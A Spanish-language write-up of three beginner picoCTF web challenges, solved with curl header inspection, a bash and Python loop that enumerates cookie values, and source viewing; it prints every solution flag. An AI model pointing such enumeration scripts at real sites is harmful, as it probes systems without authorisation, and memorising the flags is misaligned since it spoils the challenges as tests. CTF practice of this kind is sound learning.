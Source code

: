 ## GET aHEAD

Nos dan una web que tiene dos botones "elige rojo" y "elige azul", si le das a uno se cambia el color del fondo.
Con el azul lo toma como peticion POST a index.php mientras que verde es GET a index.php?. Inspeccionando el codigo fuente con el curl no he encontrado
ninguna flag ni ruta escondida. Examinando las peticiones con las herramientas del navegador tampoco encontre gran cosa. Estaba algo perdido hasta que me 
dio por hacer un curl -I para ver si habia mas informacion en los headers y di con la flag.
```bash
~:$ curl http://mercury.picoctf.net:53554  -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
Tiene sentido porque el titulo del reto dice de HEAD y los colores daban la pista de probar a cambiar los metodos (get = rojo, post = azul )
Con burpsuite cambie a HEAD y me salio lo mismo (el el metodo que usa el curl -I).

--------------------------------------------------------------------

## Cookies

En esta web nos pone un "buscador de cookies" y la palabra "snickerdoodle" de ejemplo (supongo que sera una marca de cookies). Si pongo esa misma palabra
dice "I love snickerdoodle cookies!". Como estamos hablando todo el reto de las cookies, mire en el navegador en Cookies. Pone 0. Si le das a "home",
te sale el bscador otra vez y en cockies un -1. Si pongo otros numeros me sale el mensaje de "I love" otros tipos de cookies asi que supongo que 
habra que fuzzear o applicar algun tipo de sqli sencilla. Replicaos con curl la peticio:
```console
~:$ curl -s http://mercury.picoctf.net:6418 -H "Cookie: name=0"  -L | html2text
**** Cookies ****
×  That is a cookie! Not very special though...
I love snickerdoodle cookies!
```
Con un script de bash se pueden probar muchos numeros
```bash
for numero in $(seq 1 30); do
    peticion=$(curl -s "http://mercury.picoctf.net:6418/" -H "Cookie: name=$numero" -L | html2text )
    if ! echo $peticion | grep "Not very special" > /dev/null; then
        echo  "[Cookie nº -> $numero] $peticion" 
        exit 0
    fi  
done
```
```console
~:$ bash cookie.sh 
[Cookie nº -> 18] 
Flag: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
Para practicar quise hacer el equivalente en python.
```python
for number in range(20):
    req = requests.get("http://mercury.picoctf.net:6418/", cookies = {"name":str(number)})
    if not "That is a cookie! Not very special though..." in req.text:
        print(number)
```
--------------------------------------------------------------------

## Insp3ct0r

Aqui nos dan la web de alguien que acaba de empezar a programar "Mi primera web :)"
COn el *curl* (viendo el codigo fuente) tenemos 1/3 de la flag -> ```picoCTF{tru3_d3``` Tambien nos dan rutas a su .js y su .css, que al verlas
obetenemos el resto ```picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}```




